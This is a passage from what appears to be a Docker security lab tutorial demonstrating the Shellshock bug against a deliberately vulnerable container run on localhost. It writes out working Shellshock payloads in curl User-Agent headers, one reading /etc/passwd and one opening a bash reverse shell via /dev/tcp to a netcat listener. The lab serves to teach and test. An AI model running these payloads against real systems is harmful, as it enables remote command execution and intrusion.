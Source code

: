 Now it is no more possible to edit outside files from containers using **-v** option.







## ShellShock

We can test this vulnerability using an image that already has it.

Then we pull and use this image from Docker Hub: [vulnerables/cve-2014-6271](https://hub.docker.com/r/vulnerables/cve-2014-6271).

```bash
gle003@vb-ubuntu:~$ docker run -itd -p 8080:80 --name shellshock vulnerables/cve-2014-6271
560ef2f4a0bd4f9a3ad4ac2b59d180030290a83ae91287fa3a6c2e835cb4fe1e
gle003@vb-ubuntu:~$ docker ps
CONTAINER ID        IMAGE                       COMMAND              CREATED             STATUS              PORTS                  NAMES
560ef2f4a0bd        vulnerables/cve-2014-6271   "/main.sh default"   3 seconds ago       Up 1 second         0.0.0.0:8080->80/tcp   shellshock
```

> To see if you got the right way, follow this link: http://localhost:8080/



Ok, now we have an image vulnerable to Shellshock. Let's test it.

```bash
gle003@vb-ubuntu:~$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost:8080/cgi-bin/vulnerable
```

If you sent this command and got /etc/passwd outputed, it is all right!



But we can not only send command by command. We can explore it an go to inside the container. 

Now you need to open two terminals. One you will use as a listener and the other as the attacker.

First one, you need to send it from the **Listener**:

```bash
gle003@vb-ubuntu:~$ nc -lvp 4444
```

Then, you need to break it from the **Attacker**:

```bash
gle003@vb-ubuntu:~$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.15.100/4444 0>&1'" http://localhost:8080/cgi-bin/vulnerable
```

Now, back to the **Listener** and you can send command however you want.

> You also can see more about ShellShock **[here](https://blog.cloudflare.com/inside-shellshock/)**. 



### But, am I inside a container?
